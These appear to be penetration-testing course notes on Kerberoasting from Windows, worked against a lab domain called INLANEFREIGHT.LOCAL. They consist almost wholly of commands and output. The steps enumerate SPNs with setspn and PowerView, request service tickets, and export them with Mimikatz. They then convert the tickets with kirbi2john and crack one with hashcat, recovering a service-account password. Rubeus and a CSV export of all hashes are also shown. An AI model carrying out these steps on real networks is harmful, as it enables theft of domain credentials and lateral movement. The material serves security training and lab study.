

# Kerberoasting - from Windows
## Kerberoasting - Semi Manual method
### Enumerating SPNs with setspn.exe

```cmd
C:\htb> setspn.exe -Q */*

Checking domain DC=INLANEFREIGHT,DC=LOCAL
CN=ACADEMY-EA-DC01,OU=Domain Controllers,DC=INLANEFREIGHT,DC=LOCAL
        exchangeAB/ACADEMY-EA-DC01
        exchangeAB/ACADEMY-EA-DC01.INLANEFREIGHT.LOCAL
        TERMSRV/ACADEMY-EA-DC01
        TERMSRV/ACADEMY-EA-DC01.INLANEFREIGHT.LOCAL
        Dfsr-12F9A27C-BF97-4787-9364-D31B6C55EB04/ACADEMY-EA-DC01.INLANEFREIGHT.LOCAL
        ldap/ACADEMY-EA-DC01.INLANEFREIGHT.LOCAL/ForestDnsZones.INLANEFREIGHT.LOCAL
        ldap/ACADEMY-EA-DC01.INLANEFREIGHT.LOCAL/DomainDnsZones.INLANEFREIGHT.LOCAL

<SNIP>

CN=BACKUPAGENT,OU=Service Accounts,OU=Corp,DC=INLANEFREIGHT,DC=LOCAL
        backupjob/veam001.inlanefreight.local
CN=SOLARWINDSMONITOR,OU=Service Accounts,OU=Corp,DC=INLANEFREIGHT,DC=LOCAL
        sts/inlanefreight.local

<SNIP>

CN=sqlprod,OU=Service Accounts,OU=Corp,DC=INLANEFREIGHT,DC=LOCAL
        MSSQLSvc/SPSJDB.inlanefreight.local:1433
CN=sqlqa,OU=Service Accounts,OU=Corp,DC=INLANEFREIGHT,DC=LOCAL
        MSSQLSvc/SQL-CL01-01inlanefreight.local:49351
CN=sqldev,OU=Service Accounts,OU=Corp,DC=INLANEFREIGHT,DC=LOCAL
        MSSQLSvc/DEV-PRE-SQL.inlanefreight.local:1433
CN=adfs,OU=Service Accounts,OU=Corp,DC=INLANEFREIGHT,DC=LOCAL
        adfsconnect/azure01.inlanefreight.local

Existing SPN found!
```

### Targeting a Single User

```pwsh
PS C:\htb> Add-Type -AssemblyName System.IdentityModel
PS C:\htb> New-Object System.IdentityModel.Tokens.KerberosRequestorSecurityToken -ArgumentList "MSSQLSvc/DEV-PRE-SQL.inlanefreight.local:1433"

Id                   : uuid-67a2100c-150f-477c-a28a-19f6cfed4e90-2
SecurityKeys         : {System.IdentityModel.Tokens.InMemorySymmetricSecurityKey}
ValidFrom            : 2/24/2022 11:36:22 PM
ValidTo              : 2/25/2022 8:55:25 AM
ServicePrincipalName : MSSQLSvc/DEV-PRE-SQL.inlanefreight.local:1433
SecurityKey          : System.IdentityModel.Tokens.InMemorySymmetricSecurityKey
```

- The [Add-Type](https://docs.microsoft.com/en-us/powershell/module/microsoft.powershell.utility/add-type?view=powershell-7.2) cmdlet is used to add a .NET framework class to our PowerShell session, which can then be instantiated like any .NET framework object
- The `-AssemblyName` parameter allows us to specify an assembly that contains types that we are interested in using
- [System.IdentityModel](https://docs.microsoft.com/en-us/dotnet/api/system.identitymodel?view=netframework-4.8) is a namespace that contains different classes for building security token services
- We'll then use the [New-Object](https://docs.microsoft.com/en-us/powershell/module/microsoft.powershell.utility/new-object?view=powershell-7.2) cmdlet to create an instance of a .NET Framework object
- We'll use the [System.IdentityModel.Tokens](https://docs.microsoft.com/en-us/dotnet/api/system.identitymodel.tokens?view=netframework-4.8) namespace with the [KerberosRequestorSecurityToken](https://docs.microsoft.com/en-us/dotnet/api/system.identitymodel.tokens.kerberosrequestorsecuritytoken?view=netframework-4.8) class to create a security token and pass the SPN name to the class to request a Kerberos TGS ticket for the target account in our current logon session

### Retrieving All Tickets Using setspn.exe

```pwsh
PS C:\htb> setspn.exe -T INLANEFREIGHT.LOCAL -Q */* | Select-String '^CN' -Context 0,1 | % { New-Object System.IdentityModel.Tokens.KerberosRequestorSecurityToken -ArgumentList $_.Context.PostContext[0].Trim() }

Id                   : uuid-67a2100c-150f-477c-a28a-19f6cfed4e90-3
SecurityKeys         : {System.IdentityModel.Tokens.InMemorySymmetricSecurityKey}
ValidFrom            : 2/24/2022 11:56:18 PM
ValidTo              : 2/25/2022 8:55:25 AM
ServicePrincipalName : exchangeAB/ACADEMY-EA-DC01
SecurityKey          : System.IdentityModel.Tokens.InMemorySymmetricSecurityKey

Id                   : uuid-67a2100c-150f-477c-a28a-19f6cfed4e90-4
SecurityKeys         : {System.IdentityModel.Tokens.InMemorySymmetricSecurityKey}
ValidFrom            : 2/24/2022 11:56:18 PM
ValidTo              : 2/24/2022 11:58:18 PM
ServicePrincipalName : kadmin/changepw
SecurityKey          : System.IdentityModel.Tokens.InMemorySymmetricSecurityKey

Id                   : uuid-67a2100c-150f-477c-a28a-19f6cfed4e90-5
SecurityKeys         : {System.IdentityModel.Tokens.InMemorySymmetricSecurityKey}
ValidFrom            : 2/24/2022 11:56:18 PM
ValidTo              : 2/25/2022 8:55:25 AM
ServicePrincipalName : WSMAN/ACADEMY-EA-MS01
SecurityKey          : System.IdentityModel.Tokens.InMemorySymmetricSecurityKey

<SNIP>
```

The above command combines the previous command with `setspn.exe` to request tickets for all accounts with SPNs set.

## Extracting Tickets from Memory with Mimikatz
Now that the tickets are loaded, we can use `Mimikatz` to extract the ticket(s) from `memory`.

```
Using 'mimikatz.log' for logfile : OK

mimikatz # base64 /out:true
isBase64InterceptInput  is false
isBase64InterceptOutput is true

mimikatz # kerberos::list /export  

<SNIP>

[00000002] - 0x00000017 - rc4_hmac_nt      
   Start/End/MaxRenew: 2/24/2022 3:36:22 PM ; 2/25/2022 12:55:25 AM ; 3/3/2022 2:55:25 PM
   Server Name       : MSSQLSvc/DEV-PRE-SQL.inlanefreight.local:1433 @ INLANEFREIGHT.LOCAL
   Client Name       : htb-student @ INLANEFREIGHT.LOCAL
   Flags 40a10000    : name_canonicalize ; pre_authent ; renewable ; forwardable ; 
====================
Base64 of file : 2-40a10000-htb-student@MSSQLSvc~DEV-PRE-SQL.inlanefreight.local~1433-INLANEFREIGHT.LOCAL.kirbi
====================
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
ZWZyZWlnaHQubG9jYWw6MTQzMw==
====================

   * Saved to file     : 2-40a10000-htb-student@MSSQLSvc~DEV-PRE-SQL.inlanefreight.local~1433-INLANEFREIGHT.LOCAL.kirbi

<SNIP>
```

### Preparing the Base64 Blob for Cracking

```sh
masterofblafu@htb[/htb]$ echo "<base64 blob>" |  tr -d \\n 

doIGPzCCBjugAwIBBaEDAgEWooIFKDCCBSRhggUgMIIFHKADAgEFoRUbE0lOTEFORUZSRUlHSFQuTE9DQUyiOzA5oAMCAQKhMjAwGwhNU1NRTFN2YxskREVWLVBSRS1TUUwuaW5sYW5lZnJlaWdodC5sb2NhbDoxNDMzo4IEvzCCBLugAwIBF6EDAgECooIErQSCBKmBMUn7JhVJpqG0ll7UnRuoeoyRtHxTS8JY1cl6z0M4QbLvJHi0JYZdx1w5sdzn9Q3tzCn8ipeu+NUaIsVyDuYU/LZG4o2FS83CyLNiu/r2Lc2ZM8Ve/rqdd+TGxvUkr+5caNrPy2YHKRogzfsO8UQFU1anKW4ztEB1S+f4d1SsLkhYNI4q67cnCy00UEf4gOF6zAfieo91LDcryDpi1UII0SKIiT0yr9IQGR3TssVnl70acuNac6eCC+Ufvyd7g9gYH/9aBc8hSBp7RizrAcN2HFCVJontEJmCfBfCk0Ex23G8UULFic1w7S6/V9yj9iJvOyGElSk1VBRDMhC41712/sTraKRd7rw+fMkx7YdpMoU2dpEj9QQNZ3GRXNvGyQFkZp+sctI6Yx/vJYBLXI7DloCkzClZkp7c40u+5q/xNby7smpBpLToi5NoltRmKshJ9W19aAcb4TnPTfr2ZJcBUpf5tEza7wlsjQAlXsPmL3EF2QXQsvOc74PbTYEnGPlejJkSnzIHs4a0wy99V779QR4ZwhgUjRkCjrAQPWvpmuI6RU9vOwM50A0nh580JZiTdZbK2tBorD2BWVKgU/h9h7JYR4S52DBQ7qmnxkdM3ibJD0o1RgdqQO03TQBMRl9lRiNJnKFOnBFTgBLPAN7jFeLtREKTgiUC1/aFAi5h81aOHbJbXP5aibM4eLbj2wXp2RrWOCD8t9BEnmat0T8e/O3dqVM52z3JGfHK/5aQ5Us+T5qM9pmKn5v1XHou0shzgunaYPfKPCLgjMNZ8+9vRgOlry/CgwO/NgKrm8UgJuWMJ/skf9QhD0UkT9cUhGhbg3/pVzpTlk1UrP3n+WMCh2Tpm+p7dxOctlEyjoYuQ9iUY4KI6s6ZttT4tmhBUNua3EMlQUO3fzLr5vvjCd3jt4MF/fD+YFBfkAC4nGfHXvbdQl4E++Ol6/LXihGjktgVop70jZRX+2x4DrTMB9+mjC6XBUeIlS9a2Syo0GLkpolnhgMC/ZYwF0r4MuWZu1/KnPNB16EXaGjZBzeW3/vUjv6ZsiL0J06TBm3mRrPGDR3ZQHLdEh3QcGAk0Rc4p16+tbeGWlUFIg0PA66m01mhfzxbZCSYmzG25S0cVYOTqjToEgT7EHN0qIhNyxb2xZp2oAIgBP2SFzS4cZ6GlLoNf4frRvVgevTrHGgba1FA28lKnqf122rkxx+8ECSiW3esAL3FSdZjc9OQZDvo8QB5MKQSTpnU/LYXfb1WafsGFw07inXbmSgWS1XkVNCOd/kXsd0uZI2cfrDLK4yg7/ikTR6l/dZ+Adp5BHpKFAb3YfXjtpRM6+1FN56hTnoCfIQ/pAXAfIOFohAvB5Z6fLSIP0TuctSqejiycB53N0AWoBGT9bF4409M8tjq32UeFiVp60IcdOjV4Mwan6tYpLm2O6uwnvw0J+Fmf5x3Mbyr42RZhgQKcwaSTfXm5oZV57Di6I584CgeD1VN6C2d5sTZyNKjb85lu7M3pBUDDOHQPAD9l4Ovtd8O6Pur+jWFIa2EXm0H/efTTyMR665uahGdYNiZRnpm+ZfCc9LfczUPLWxUOOcaBX/uq6OCAQEwgf6gAwIBAKKB9gSB832B8DCB7aCB6jCB5zCB5KAbMBmgAwIBF6ESBBB3DAViYs6KmIFpubCAqyQcoRUbE0lOTEFORUZSRUlHSFQuTE9DQUyiGDAWoAMCAQGhDzANGwtodGItc3R1ZGVudKMHAwUAQKEAAKURGA8yMDIyMDIyNDIzMzYyMlqmERgPMjAyMjAyMjUwODU1MjVapxEYDzIwMjIwMzAzMjI1NTI1WqgVGxNJTkxBTkVGUkVJR0hULkxPQ0FMqTswOaADAgECoTIwMBsITVNTUUxTdmMbJERFVi1QUkUtU1FMLmlubGFuZWZyZWlnaHQubG9jYWw6MTQzMw==
```

### Placing the Output into a File as .kirbi

```sh
masterofblafu@htb[/htb]$ cat encoded_file | base64 -d > sqldev.kirbi
```

### Extracting the Kerberos Ticket using kirbi2john.py

```sh
masterofblafu@htb[/htb]$ python2.7 kirbi2john.py sqldev.kirbi
```

### Modifiying crack_file for Hashcat

```sh
masterofblafu@htb[/htb]$ sed 's/\$krb5tgs\$\(.*\):\(.*\)/\$krb5tgs\$23\$\*\1\*\$\2/' crack_file > sqldev_tgs_hashcat
```

### Viewing the Prepared Hash

```sh
masterofblafu@htb[/htb]$ cat sqldev_tgs_hashcat 

$krb5tgs$23$*sqldev.kirbi*$813149fb261549a6a1b4965ed49d1ba8$7a8c91b47c534bc258d5c97acf433841b2ef2478b425865dc75c39b1dce7f50dedcc29fc8a97aef8d51a22c5720ee614fcb646e28d854bcdc2c8b362bbfaf62dcd9933c55efeba9d77e4c6c6f524afee5c68dacfcb6607291a20cdfb0ef144055356a7296e33b440754be7f87754ac2e4858348e2aebb7270b2d345047f880e17acc07e27a8f752c372bc83a62d54208d12288893d32afd210191dd3b2c56797bd1a72e35a73a7820be51fbf277b83d8181fff5a05cf21481a7b462ceb01c3761c50952689ed1099827c17c2934131db71bc5142c589cd70ed2ebf57dca3f6226f3b21849529355414433210b8d7bd76fec4eb68a45deebc3e7cc931ed8769328536769123f5040d6771915cdbc6c90164669fac72d23a631fef25804b5c8ec39680a4cc2959929edce34bbee6aff135bcbbb26a41a4b4e88b936896d4662ac849f56d7d68071be139cf4dfaf66497015297f9b44cdaef096c8d00255ec3e62f7105d905d0b2f39cef83db4d812718f95e8c99129f3207b386b4c32f7d57befd411e19c218148d19028eb0103d6be99ae23a454f6f3b0339d00d27879f342598937596cadad068ac3d815952a053f87d87b2584784b9d83050eea9a7c6474cde26c90f4a3546076a40ed374d004c465f654623499ca14e9c11538012cf00dee315e2ed444293822502d7f685022e61f3568e1db25b5cfe5a89b33878b6e3db05e9d91ad63820fcb7d0449e66add13f1efceddda95339db3dc919f1caff9690e54b3e4f9a8cf6998a9f9bf55c7a2ed2c87382e9da60f7ca3c22e08cc359f3ef6f4603a5af2fc28303bf3602ab9bc52026e58c27fb247fd4210f45244fd71484685b837fe9573a53964d54acfde7f963028764e99bea7b77139cb651328e862e43d894638288eace99b6d4f8b6684150db9adc43254143b77f32ebe6fbe309dde3b78305fdf0fe60505f9000b89c67c75ef6dd425e04fbe3a5ebf2d78a11a392d815a29ef48d9457fb6c780eb4cc07dfa68c2e97054788952f5ad92ca8d062e4a68967860302fd9630174af832e599bb5fca9cf341d7a1176868d9073796dffbd48efe99b222f4274e93066de646b3c60d1dd94072dd121dd0706024d11738a75ebeb5b7865a5505220d0f03aea6d359a17f3c5b6424989b31b6e52d1c558393aa34e81204fb107374a8884dcb16f6c59a76a0022004fd921734b8719e8694ba0d7f87eb46f5607af4eb1c681b6b5140dbc94a9ea7f5db6ae4c71fbc1024a25b77ac00bdc549d66373d390643be8f1007930a4124e99d4fcb6177dbd5669fb06170d3b8a75db9928164b55e454d08e77f917b1dd2e648d9c7eb0cb2b8ca0eff8a44d1ea5fdd67e01da79047a4a1406f761f5e3b6944cebed45379ea14e7a027c843fa405c07c8385a2102f07967a7cb4883f44ee72d4aa7a38b2701e77374016a01193f5b178e34f4cf2d8eadf651e162569eb421c74e8d5e0cc1a9fab58a4b9b63babb09efc3427e1667f9c7731bcabe3645986040a7306924df5e6e68655e7b0e2e88e7ce0281e0f554de82d9de6c4d9c8d2a36fce65bbb337a415030ce1d03c00fd9783afb5df0ee8fbabfa358521ad845e6d07fde7d34f2311ebae6e6a119d60d899467a66f997c273d2df73350f2d6c5438e71a057feeab
```

### Cracking the Hash with Hashcat

```sh
masterofblafu@htb[/htb]$ hashcat -m 13100 sqldev_tgs_hashcat /usr/share/wordlists/rockyou.txt 

<SNIP>

$krb5tgs$23$*sqldev.kirbi*$813149fb261549a6a1b4965ed49d1ba8$7a8c91b47c534bc258d5c97acf433841b2ef2478b425865dc75c39b1dce7f50dedcc29fc8a97aef8d51a22c5720ee614fcb646e28d854bcdc2c8b362bbfaf62dcd9933c55efeba9d77e4c6c6f524afee5c68dacfcb6607291a20cdfb0ef144055356a7296e33b440754be7f87754ac2e4858348e2aebb7270b2d345047f880e17acc07e27a8f752c372bc83a62d54208d12288893d32afd210191dd3b2c56797bd1a72e35a73a7820be51fbf277b83d8181fff5a05cf21481a7b462ceb01c3761c50952689ed1099827c17c2934131db71bc5142c589cd70ed2ebf57dca3f6226f3b21849529355414433210b8d7bd76fec4eb68a45deebc3e7cc931ed8769328536769123f5040d6771915cdbc6c90164669fac72d23a631fef25804b5c8ec39680a4cc2959929edce34bbee6aff135bcbbb26a41a4b4e88b936896d4662ac849f56d7d68071be139cf4dfaf66497015297f9b44cdaef096c8d00255ec3e62f7105d905d0b2f39cef83db4d812718f95e8c99129f3207b386b4c32f7d57befd411e19c218148d19028eb0103d6be99ae23a454f6f3b0339d00d27879f342598937596cadad068ac3d815952a053f87d87b2584784b9d83050eea9a7c6474cde26c90f4a3546076a40ed374d004c465f654623499ca14e9c11538012cf00dee315e2ed444293822502d7f685022e61f3568e1db25b5cfe5a89b33878b6e3db05e9d91ad63820fcb7d0449e66add13f1efceddda95339db3dc919f1caff9690e54b3e4f9a8cf6998a9f9bf55c7a2ed2c87382e9da60f7ca3c22e08cc359f3ef6f4603a5af2fc28303bf3602ab9bc52026e58c27fb247fd4210f45244fd71484685b837fe9573a53964d54acfde7f963028764e99bea7b77139cb651328e862e43d894638288eace99b6d4f8b6684150db9adc43254143b77f32ebe6fbe309dde3b78305fdf0fe60505f9000b89c67c75ef6dd425e04fbe3a5ebf2d78a11a392d815a29ef48d9457fb6c780eb4cc07dfa68c2e97054788952f5ad92ca8d062e4a68967860302fd9630174af832e599bb5fca9cf341d7a1176868d9073796dffbd48efe99b222f4274e93066de646b3c60d1dd94072dd121dd0706024d11738a75ebeb5b7865a5505220d0f03aea6d359a17f3c5b6424989b31b6e52d1c558393aa34e81204fb107374a8884dcb16f6c59a76a0022004fd921734b8719e8694ba0d7f87eb46f5607af4eb1c681b6b5140dbc94a9ea7f5db6ae4c71fbc1024a25b77ac00bdc549d66373d390643be8f1007930a4124e99d4fcb6177dbd5669fb06170d3b8a75db9928164b55e454d08e77f917b1dd2e648d9c7eb0cb2b8ca0eff8a44d1ea5fdd67e01da79047a4a1406f761f5e3b6944cebed45379ea14e7a027c843fa405c07c8385a2102f07967a7cb4883f44ee72d4aa7a38b2701e77374016a01193f5b178e34f4cf2d8eadf651e162569eb421c74e8d5e0cc1a9fab58a4b9b63babb09efc3427e1667f9c7731bcabe3645986040a7306924df5e6e68655e7b0e2e88e7ce0281e0f554de82d9de6c4d9c8d2a36fce65bbb337a415030ce1d03c00fd9783afb5df0ee8fbabfa358521ad845e6d07fde7d34f2311ebae6e6a119d60d899467a66f997c273d2df73350f2d6c5438e71a057feeab:database!
                                                 
Session..........: hashcat
Status...........: Cracked
Hash.Name........: Kerberos 5, etype 23, TGS-REP
Hash.Target......: $krb5tgs$23$*sqldev.kirbi*$813149fb261549a6a1b4965e...7feeab
Time.Started.....: Thu Feb 24 22:03:03 2022 (8 secs)
Time.Estimated...: Thu Feb 24 22:03:11 2022 (0 secs)
Guess.Base.......: File (/usr/share/wordlists/rockyou.txt)
Guess.Queue......: 1/1 (100.00%)
Speed.#1.........:  1150.5 kH/s (9.76ms) @ Accel:64 Loops:1 Thr:64 Vec:8
Recovered........: 1/1 (100.00%) Digests
Progress.........: 8773632/14344385 (61.16%)
Rejected.........: 0/8773632 (0.00%)
Restore.Point....: 8749056/14344385 (60.99%)
Restore.Sub.#1...: Salt:0 Amplifier:0-1 Iteration:0-1
Candidates.#1....: davius -> darjes

Started: Thu Feb 24 22:03:00 2022
Stopped: Thu Feb 24 22:03:11 2022
```

## Automated / Tool Based Route
### Using PowerView to Enumerate SPN Accounts

```pwsh
PS C:\htb> Import-Module .\PowerView.ps1
PS C:\htb> Get-DomainUser * -spn | select samaccountname

samaccountname
--------------
adfs
backupagent
krbtgt
sqldev
sqlprod
sqlqa
solarwindsmonitor
```

### Using PowerView to Target a Specific User

```pwsh
PS C:\htb> Get-DomainUser -Identity sqldev | Get-DomainSPNTicket -Format Hashcat

SamAccountName       : sqldev
DistinguishedName    : CN=sqldev,OU=Service Accounts,OU=Corp,DC=INLANEFREIGHT,DC=LOCAL
ServicePrincipalName : MSSQLSvc/DEV-PRE-SQL.inlanefreight.local:1433
TicketByteHexStream  :
Hash                 : $krb5tgs$23$*sqldev$INLANEFREIGHT.LOCAL$MSSQLSvc/DEV-PRE-SQL.inlanefreight.local:1433*$BF9729001
                       376B63C5CAC933493C58CE7$4029DBBA2566AB4748EDB609CA47A6E7F6E0C10AF50B02D10A6F92349DDE3336018DE177
                       AB4FF3CE724FB0809CDA9E30703EDDE93706891BCF094FE64387B8A32771C7653D5CFB7A70DE0E45FF7ED6014B5F769F
                       DC690870416F3866A9912F7374AE1913D83C14AB51E74F200754C011BD11932464BEDA7F1841CCCE6873EBF0EC5215C0
                       12E1938AEC0E02229F4C707D333BD3F33642172A204054F1D7045AF3303809A3178DD7F3D8C4FB0FBB0BB412F3BD5526
                       7B1F55879DFB74E2E5D976C4578501E1B8F8484A0E972E8C45F7294DA90581D981B0F177D79759A5E6282D86217A03A9
                       ADBE5EEB35F3924C84AE22BBF4548D2164477409C5449C61D68E95145DA5456C548796CC30F7D3DDD80C48C84E3A538B
                       019FB5F6F34B13859613A6132C90B2387F0156F3C3C45590BBC2863A3A042A04507B88FD752505379C42F32A14CB9E44
                       741E73285052B70C1CE5FF39F894412010BAB8695C8A9BEABC585FC207478CD91AE0AD03037E381C48118F0B65D25847
                       B3168A1639AF2A534A63CF1BC9B1AF3BEBB4C5B7C87602EEA73426406C3A0783E189795DC9E1313798C370FD39DA53DD
                       CFF32A45E08D0E88BC69601E71B6BD0B753A10C36DB32A6C9D22F90356E7CD7D768ED484B9558757DE751768C99A64D6
                       50CA4811D719FC1790BAE8FE5DB0EB24E41FF945A0F2C80B4C87792CA880DF9769ABA2E87A1ECBF416641791E6A762BF
                       1DCA96DDE99D947B49B8E3DA02C8B35AE3B864531EC5EE08AC71870897888F7C2308CD8D6B820FCEA6F584D1781512AC
                       089BFEFB3AD93705FDBA1EB070378ABC557FEA0A61CD3CB80888E33C16340344480B4694C6962F66CB7636739EBABED7
                       CB052E0EAE3D7BEBB1E7F6CF197798FD3F3EF7D5DCD10CCF9B4AB082CB1E199436F3F271E6FA3041EF00D421F4792A0A
                       DCF770B13EDE5BB6D4B3492E42CCCF208873C5D4FD571F32C4B761116664D9BADF425676125F6BF6C049DD067437858D
                       0866BE520A2EBFEA077037A59384A825E6AAA99F895A58A53313A86C58D1AA803731A849AE7BAAB37F4380152F790456
                       37237582F4CA1C5287F39986BB233A34773102CB4EAE80AFFFFEA7B4DCD54C28A824FF225EA336DE28F4141962E21410
                       D66C5F63920FB1434F87A988C52604286DDAD536DA58F80C4B92858FE8B5FFC19DE1B017295134DFBE8A2A6C74CB46FF
                       A7762D64399C7E009AA60B8313C12D192AA25D3025CD0B0F81F7D94249B60E29F683B797493C8C2B9CE61B6E3636034E
                       6DF231C428B4290D1BD32BFE7DC6E7C1E0E30974E0620AE337875A54E4AFF4FD50C4785ADDD59095411B4D94A094E87E
                       6879C36945B424A86159F1575042CB4998F490E6C1BC8A622FC88574EB2CF80DD01A0B8F19D8F4A67C942D08DCCF23DD
                       92949F63D3B32817941A4B9F655A1D4C5F74896E2937F13C9BAF6A81B7EEA3F7BC7C192BAE65484E5FCCBEE6DC51ED9F
                       05864719357F2A223A4C48A9A962C1A90720BBF92A5C9EEB9AC1852BC3A7B8B1186C7BAA063EB0AA90276B5D91AA2495
                       D29D545809B04EE67D06B017C6D63A261419E2E191FB7A737F3A08A2E3291AB09F95C649B5A71C5C45243D4CEFEF5EED
                       95DDD138C67495BDC772CFAC1B8EF37A1AFBAA0B73268D2CDB1A71778B57B02DC02628AF11
```

### Exporting All Tickets to a CSV File

```pwsh
PS C:\htb> Get-DomainUser * -SPN | Get-DomainSPNTicket -Format Hashcat | Export-Csv .\ilfreight_tgs.csv -NoTypeInformation
```

### Viewing the Contents of the .CSV File

```pwsh
PS C:\htb> cat .\ilfreight_tgs.csv

"SamAccountName","DistinguishedName","ServicePrincipalName","TicketByteHexStream","Hash"
"adfs","CN=adfs,OU=Service Accounts,OU=Corp,DC=INLANEFREIGHT,DC=LOCAL","adfsconnect/azure01.inlanefreight.local",,"$krb5tgs$23$*adfs$INLANEFREIGHT.LOCAL$adfsconnect/azure01.inlanefreight.local*$59C086008BBE7EAE4E483506632F6EF8$622D9E1DBCB1FF2183482478B5559905E0CCBDEA2B52A5D9F510048481F2A3A4D2CC47345283A9E71D65E1573DCF6F2380A6FFF470722B5DEE704C51FF3A3C2CDB2945CA56F7763E117F04F26CA71EEACED25730FDCB06297ED4076C9CE1A1DBFE961DCE13C2D6455339D0D90983895D882CFA21656E41C3DDDC4951D1031EC8173BEEF9532337135A4CF70AE08F0FB34B6C1E3104F35D9B84E7DF7AC72F514BE2B346954C7F8C0748E46A28CCE765AF31628D3522A1E90FA187A124CA9D5F911318752082FF525B0BE1401FBA745E1

<SNIP>
```

### Using Rubeus

```pwsh
PS C:\htb> .\Rubeus.exe

<SNIP>

Roasting:

    Perform Kerberoasting:
        Rubeus.exe kerberoast [[/spn:"blah/blah"] | [/spns:C:\temp\spns.txt]] [/user:USER] [/domain:DOMAIN] [/dc:DOMAIN_CONTROLLER] [/ou:"OU=,..."] [/ldaps] [/nowrap]

    Perform Kerberoasting, outputting hashes to a file:
        Rubeus.exe kerberoast /outfile:hashes.txt [[/spn:"blah/blah"] | [/spns:C:\temp\spns.txt]] [/user:USER] [/domain:DOMAIN] [/dc:DOMAIN_CONTROLLER] [/ou:"OU=,..."] [/ldaps]

    Perform Kerberoasting, outputting hashes in the file output format, but to the console:
